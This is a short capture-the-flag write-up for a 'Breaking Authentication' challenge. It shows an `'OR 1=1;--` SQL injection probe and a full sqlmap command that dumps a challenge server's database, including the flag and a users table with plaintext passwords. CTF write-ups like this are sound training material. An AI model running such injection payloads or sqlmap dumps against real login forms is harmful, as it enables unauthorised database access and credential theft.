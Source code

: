 # Breaking Authentication (750 pts)

![BreakingAuthentication](img/breakingauthentication.png)

At first, I tried `'OR 1=1;--` and I got an error. So this is definitely **SQL Injection** and it uses **MySQL**

Next, I just need to use `sqlmap` to dump the flag :D

```sh
sqlmap -u 'http://23.179.17.40:58001' --method=POST --data="username=123&password=123&login=Login" --dbs --dump
Database: app
Table: secrets
[1 entry]
+--------+-----------------------+
| name   | value                 |
+--------+-----------------------+
| flag   | CIT{36b0efd6c2ec7132} |
+--------+-----------------------+

Database: app
Table: users
[4 entries]
+---------+----------+--------------+----------+
| email   | fullname | password     | username |
+---------+----------+--------------+----------+
| <blank> | <blank>  | m1n3r41s     | hank     |
| <blank> | <blank>  | 9f3IC3uj9^zZ | admin    |
| <blank> | <blank>  | M4GN375      | jesse    |
| <blank> | <blank>  | b4byb1u3     | walter   |
+---------+----------+--------------+----------+
```

`Flag: CIT{36b0efd6c2ec7132}`
